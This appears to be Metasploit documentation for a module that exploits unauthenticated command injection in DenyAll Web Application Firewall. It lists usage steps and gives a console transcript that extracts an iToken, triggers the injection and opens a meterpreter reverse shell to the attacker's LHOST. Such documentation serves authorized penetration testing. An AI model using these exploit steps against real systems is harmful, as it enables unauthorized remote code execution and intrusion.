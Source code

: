 ## Vulnerable Application

This module exploits the command injection vulnerability of DenyAll Web Application Firewall. Unauthenticated users can execute a terminal command under the context of the web server user.

It's possible to have trial demo for 15 days at Amazon Marketplace.
[https://aws.amazon.com/marketplace/pp/B01N4Q0INA?qid=1505806897911](https://aws.amazon.com/marketplace/pp/B01N4Q0INA?qid=1505806897911)

You just need to follow instruction above URL.

## Verification Steps

A successful check of the exploit will look like this:

- [ ] Start `msfconsole`
- [ ] `use use exploit/linux/http/denyall_exec`
- [ ] Set `RHOST`
- [ ] Set `LHOST`
- [ ] Run `check`
- [ ] **Verify** that you are seeing `The target appears to be vulnerable.`
- [ ] Run `exploit`
- [ ] **Verify** that you are seeing `iToken` value extraction.
- [ ] **Verify** that you are getting `meterpreter` session.

## Scenarios

```
msf > use exploit/linux/http/denyall_exec 
msf exploit(denyall_exec) > 
msf exploit(denyall_exec) > set RHOST 35.176.123.128
RHOST => 35.176.123.128
msf exploit(denyall_exec) > set LHOST 35.12.3.3
LHOST => 35.12.3.3
msf exploit(denyall_exec) > check
[*] 35.176.123.128:3001 The target appears to be vulnerable.
msf exploit(denyall_exec) > exploit 

[*] Started reverse TCP handler on 35.12.3.3:4444 
[*] Extracting iToken value from unauthenticated accessible endpoint.
[+] Awesome. iToken value = n84b214ad1f53df0bd6ffa3dcfe8059a
[*] Triggering command injection vulnerability with  iToken value.
[*] Sending stage (40411 bytes) to 35.176.123.128
[*] Meterpreter session 1 opened (35.176.123.128:4444 -> 35.12.3.3:60556) at 2017-09-19 14:31:52 +0300

meterpreter > pwd
/var/log/denyall/reverseproxy
meterpreter >
```